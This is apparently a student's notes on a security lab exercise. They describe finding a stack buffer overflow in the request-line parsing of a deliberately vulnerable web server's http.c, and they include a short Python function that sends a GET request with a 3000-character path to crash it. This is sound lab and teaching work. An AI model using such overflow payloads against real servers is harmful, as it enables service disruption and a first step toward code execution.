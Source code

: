 took me long time to figure out, what I need to do is to find buffer overflow in `http.c` file...I thought I might die in `gdb -p $(pgrep zookd-exstack)`...

PART1: Finding buffer overflows

①

in `http.c` function `http_request_line`
```
sp1 = strchr(buf, ' ');
...
url_decode(reqpath, sp1);
```

```
def build_exploit(shellcode):
    reqpath = "/" + "a"*3000
    req = "GET " + reqpath + "HTTP/1.0\r\n" + "\r\n"
    return req
```
cause server crash

An interesting I found in the same time is, if I set the `reqpath = "/" + "a" * 1024` this seems normal nothing bad return even no path error return

